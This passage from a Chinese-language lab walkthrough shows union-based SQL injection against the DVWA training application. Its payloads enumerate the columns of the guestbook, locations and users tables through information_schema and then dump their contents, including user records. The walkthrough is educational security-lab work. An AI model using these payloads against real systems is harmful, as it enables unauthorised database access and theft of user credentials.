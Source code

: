 guestbook表中共有3个字段：comment_id、comment、name。

###### 获取locations表中的字段：

```sql
1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='locations'#
```

![image-20211102213514626](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031947513.png)

locations表中共有3个字段：name、latitude、longtitude。

###### 获取users表中的字段：

```sql
1' union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'#
```

![image-20211101174539258](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949699.png)

users表中共8个字段：user_id、first_name、last_name、user、password、avatar、last_login、failed_login。

> ⭐这里需要注意要指定查询的数据库为当前数据库，不然就会在所有数据库中查找users表中的内容，因为其他数据库中也可能存在users表，就会造成内容的错误。
>
> 如下图中所示，如果不指定数据库，则还会多出3个不属于dvwa数据库user表的字段：USER、CURRENT_CONNECTIONS、TOTAL_CONNECTIONS。
>
> ![image-20211101143731305](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949325.png)



##### ⑦获得字段中的数据

###### guestbook表：


如果想要一个字段中显示多个表项，可以通过`group_concat()`函数聚合。

`1' union select group_concat(comment_id,comment),group_concat(name) from guestbook #`

![image-20211101180743109](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949300.png)

###### locations表：


如果想要一个字段中显示多个表项，可以通过`group_concat()`函数聚合。

`1' union select group_concat(name,latitude),group_concat(longtitude) from locations #`

![image-20211102213726148](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949368.png)

###### users表：

因为users表中字段比较多，所以分批获取。

`1' union select group_concat(user_id),group_concat(first_name,last_name) from users #`

![image-20211101181601544](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031949217.png)
